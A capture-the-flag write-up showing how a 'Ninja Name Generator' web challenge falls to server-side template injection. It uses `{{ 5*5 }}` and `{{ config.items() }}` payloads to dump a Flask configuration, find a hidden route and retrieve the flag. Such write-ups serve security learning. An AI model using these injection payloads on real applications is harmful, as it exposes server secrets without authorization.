

# Ninja Name Generator

Straightforward app, enter a name, and your ninja name gets revealed:



When you are able to see your input being reflected back onto the page like this, it is a good idea to check for template injection. I entered `{{ 5*5 }}` as my name. The server responded with `25 KATANA` as the generated ninja name, proving the vulnerability.

The API responses also include a header that reveal the backend server is Python:
```
Server: Werkzeug/1.0.1 Python/3.9.0
```

Next, I found a [template injection cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), and looked for things that would work for Python.

The payload `{{ config.items() }}` can be used to find the server configuration, granting this tongue twister of a ninja name:

```python
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('LOGGER_NAME', '__main__'), ('SERVER_NAME', None), ('APPLICATION_ROOT', None), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', 43200), ('TRAP_BAD_REQUEST_ERRORS', False), ('TRAP_HTTP_EXCEPTIONS', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', True), ('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')]) Shikoro
```

That last tuple, `('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')`, looks interesting.

Navigating to `/_5uPer_s3cret_` reveals our flag: `H2G2{j1nJ4_1s_s3cure}`.
